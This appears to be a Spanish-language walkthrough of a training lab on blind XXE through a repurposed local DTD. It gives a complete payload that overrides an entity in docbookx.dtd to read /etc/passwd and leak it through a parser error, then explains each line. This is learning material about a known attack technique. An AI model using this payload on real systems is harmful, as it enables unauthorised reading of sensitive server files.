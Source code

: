 En esta clase, continuamos con el mismo laboratorio anterior, en el que reutilizamos un DTD local del sistema para realizar un ataque XXE. En esta segunda parte, terminamos de afinar la carga útil que redefine una entidad del archivo ‘**docbookx.dtd**‘ y genera un error controlado que nos permite exfiltrar el contenido del archivo /etc/passwd.

El objetivo es que, al provocar este error, el mensaje resultante contenga el contenido del archivo, lo cual permite resolver el laboratorio sin necesidad de respuestas visibles ni conexiones externas. Esta técnica es especialmente útil en entornos restringidos donde no es posible interactuar con servidores externos.
Solucion
siguiendo con la solucion vamos a  construir un payload
payload (<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>)
Que hace ?
### Paso a paso

1. **`<!DOCTYPE message [...]>`**  
    Se declara un tipo de documento con una definición interna de entidades.
    
2. **`<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">`**  
    Se intenta cargar una DTD externa (local en el sistema) para expandir nuevas entidades. En este caso, `docbookx.dtd`, que se supone debe incluir una entidad llamada `ISOamso`.
    
3. **`<!ENTITY % ISOamso ' ... '>`**  
    Si `docbookx.dtd` define `%ISOamso`, lo redefine con un nuevo contenido (es un tipo de _entity override_).
    
4. **Dentro del redefinido `ISOamso`**:
    
    xml
    `<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///nonexistent/%file;'>"> %eval; %error;`
    
    - `%file` carga el archivo `/etc/passwd`.
        
    - `%eval` crea una entidad `%error` que intenta cargar un archivo inexistente con el contenido de `%file` como parte de la ruta.
        
    - `%eval;` y `%error;` expanden esas entidades.
### 🎯 Objetivo final

El objetivo de este payload es forzar al parser XML a:

- **Leer `/etc/passwd`.**
    
- **Inyectar su contenido como parte de una URL**, causando un error de carga en `file:///nonexistent/<contenido_de_passwd>`, lo cual puede provocar que el contenido del archivo aparezca en logs o mensajes de error, revelando información sensible.

y este codigo lo injectamos y con esto leemos el archivo etc/passwd
![Pasted_image_20250802192652.png](/Imagenes/Pasted_image_20250802192652.png)
